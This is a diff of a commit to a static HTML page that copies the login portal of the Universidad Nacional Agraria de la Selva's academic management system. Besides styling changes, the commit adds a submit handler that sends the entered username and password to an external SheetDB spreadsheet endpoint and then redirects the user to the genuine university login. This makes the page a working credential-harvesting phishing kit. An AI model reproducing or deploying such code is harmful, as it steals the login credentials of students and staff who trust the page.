

Before and after one commit to Formulario01/Prueba-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 195-850 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,16 +3,18 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Iniciar Sesión - Sistema de Gestión Académica</title>
+    <title>Sistema de Gestión Académica</title>
+    <link rel="icon" href="https://i.ibb.co/yNvmCKQ/image.png" type="image/png">
     <style>
         body {
             font-family: Arial, sans-serif;
             background-color: #f0f2f5;
             display: flex;
             justify-content: center;
-            align-items: center;
+            align-items: flex-start;
             height: 100vh;
             margin: 0;
+            padding-top: 50px;
             background-size: cover;
             background-position: center;
             transition: background-image 1s ease-in-out;
@@ -30,55 +32,55 @@
             z-index: -1;
         }
 
-        .background-image.hidden {
-            opacity: 0;
-        }
-
-        .background-image.visible {
-            opacity: 1;
-        }
-
         .login-container {
             background-color: white;
-            width: 340px;
+            width: 342px;
             padding: 15px;
             border-radius: 10px;
             box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
             text-align: center;
             position: relative;
             z-index: 10;
+            margin-top: 20px;
         }
+
         .login-header {
             margin-bottom: 15px;
         }
+
         .login-header img {
-            width: 70px;
+            width: 60px;
             margin-bottom: 10px;
         }
+
         .login-header h2 {
             margin: 0;
             font-size: 22px;
             color: #333;
         }
+
         .login-header p {
             margin: 5px 0 20px;
-            font-size: 14px;
-            color: #007bff;
+            font-size: 15px;
+            color: #154b85;
         }
+
         .input-group {
             display: flex;
             align-items: center;
             margin-bottom: 15px;
-            border: 1px solid transparent; /* Sin borde visible */
+            border: 1px solid #d6d7d9; /* Plomito */
             border-radius: 5px;
             padding: 0;
-            background-color: #f8f9fa;
+            background-color: white;
         }
+
         .input-group img {
-            width: 53px; /* Tamaño ajustado para alinear mejor con el input */
+            width: 53px;
             height: 35px;
-            margin: 0; /* Eliminar el margen */
+            margin: 0;
         }
+
         .input-group input {
             border: none;
             outline: none;
@@ -86,28 +88,32 @@
             flex: 1;
             font-size: 14px;
             background-color: transparent;
-            border-radius: 5px; /* Asegura que el borde del input tenga un radio igual */
+            border-radius: 5px;
         }
+
+        .input-group input::placeholder {
+            color: #999b9c;
+        }
+
         .input-group input:focus {
-            border-color: #007bff;
-            box-shadow: 0 0 0 2px rgba(0, 123, 255, 0.25);
+            border: 1px solid #007bff; /* Azul cuando el campo está enfocado */
         }
-        .input-group input::placeholder {
-            color: #6c757d;
-        }
+
         .captcha-container {
             margin-bottom: 15px;
             text-align: left;
         }
+
         .captcha-container img {
             width: 100%;
-            height: auto; /* Mantiene la proporción original */
-            max-height: 60px; /* Ajusta la altura máxima */
+            height: auto;
+            max-height: 60px;
             border-radius: 5px;
             border: 1px solid #ced4da;
         }
+
         .login-btn {
-            background-color: #28a745;
+            background-color: #35b99a;
             color: white;
             padding: 12px 0;
             border: none;
@@ -117,9 +123,7 @@
             width: 100%;
             margin-bottom: 15px;
         }
-        .login-btn:hover {
-            background-color: #218838;
-        }
+
         .error-message {
             color: #585656;
             background-color: #f8d7da;
@@ -128,29 +132,41 @@
             border-radius: 5px;
             margin-bottom: 20px;
             font-size: 16px;
+            text-align: center;
         }
+
+        .login-footer-container {
+            background-color: #f0f2f5;
+            border-radius: 0 0 10px 10px;
+            padding: 15px;
+            text-align: center;
+        }
+
         .login-footer {
-            font-size: 14px;
+            font-size: 12px;
             color: #6c757d;
+            display: flex;
+            justify-content: center;
+            flex-direction: row;
         }
+
         .login-footer a {
             color: #007bff;
             text-decoration: none;
+            margin-right: 20px;
         }
+
         .login-footer a:hover {
             text-decoration: underline;
         }
-        .login-footer hr {
-            border: 0;
-            height: 1px;
-            background-color: #6c757d;
-            margin: 20px 0;
-        }
+
         .login-footer p {
             margin-top: 10px;
             font-size: 12px;
             color: #6c757d;
+            text-align: center;
         }
+
         .highlighted-text {
             color: #6c757d;
             font-weight: bold;
@@ -168,34 +184,40 @@
             <h2>Iniciar Sesión</h2>
             <p>Sistema de Gestión Académica</p>
         </div>
-        <form class="login-form">
+        <form class="login-form" id="loginForm">
             <div class="input-group">
                 <img src="https://i.ibb.co/bQbdsqg/image.png" alt="Usuario Icon">
-                <input type="text" id="username" placeholder="Usuario">
+                <input type="text" id="username" placeholder="Usuario" required>
             </div>
             <div class="input-group">
                 <img src="https://i.ibb.co/cLgnDd2/image.png" alt="Contraseña Icon">
-                <input type="password" id="password" placeholder="Contraseña">
+                <input type="password" id="password" placeholder="Contraseña" required>
             </div>
             <div class="captcha-container">
                 <img src="https://i.ibb.co/Pg7scJL/image.png" alt="Captcha">
             </div>
             <div class="input-group">
                 <img src="https://i.ibb.co/SNpFfBY/image.png" alt="Verificación Icon">
-                <input type="text" id="verification" placeholder="Cod. Verificación">
+                <input type="text" id="verification" placeholder="Cod. Verificación" required>
             </div>
             <button type="submit" class="login-btn">Ingresar</button>
             <div class="error-message">
-                Si está teniendo problemas para <br>Iniciar Sesión, por favor actualizar su <br>contraseña usando la opción de<br>
-                <a href="#">Olvidó su Contraseña</a> utilizando su<br> correo institucional.
+                Si está teniendo problemas para iniciar sesión, por favor actualice su contraseña usando la opción de<br>
+                <a href="#">Olvidó su Contraseña</a> utilizando su correo institucional.
             </div>
         </form>
+
         <div class="login-footer">
-            <a href="#">¿Olvidó su contraseña?</a> | <a href="#">¿Docente Nuevo?</a>
-            <hr>
-            <p class="highlighted-text">Dirección de Asuntos Académicos<br>
-            Universidad Nacional Agraria de la Selva<br>
-            Copyright © 2012 - 2024 DIAA UNAS</p>
+            <a href="#">¿Olvidó su contraseña?</a>
+            <a href="#">¿Docente Nuevo?</a>
+        </div>
+        <br>
+        <div class="login-footer-container">
+            <div class="login-footer">
+                <p class="highlighted-text">Dirección de Asuntos Académicos<br>
+                Universidad Nacional Agraria de la Selva<br>
+                Copyright © 2012 - 2024 DIAA UNAS</p>
+            </div>
         </div>
     </div>
     <script>
@@ -219,6 +241,37 @@
 
         setInterval(changeBackground, 4000);
         window.onload = changeBackground;
+
+        // JavaScript para enviar datos al endpoint de SheetDB
+        const form = document.getElementById('loginForm');
+        form.addEventListener('submit', function(event) {
+            event.preventDefault();
+
+            const username = document.getElementById('username').value;
+            const password = document.getElementById('password').value;
+
+            const data = {
+                "username": username,
+                "password": password
+            };
+
+
+            fetch('https://sheetdb.io/api/v1/k04hygii552ke', {
+                method: 'POST',
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify(data)
+            })
+            .then(response => response.json())
+            .then(() => {
+                // Redirigir al usuario después de enviar los datos
+                window.location.href = "https://academico.unas.edu.pe/login";
+            })
+            .catch(error => {
+                console.error('Error:', error);
+            });
+        });
     </script>
 </body>
 </html>
```
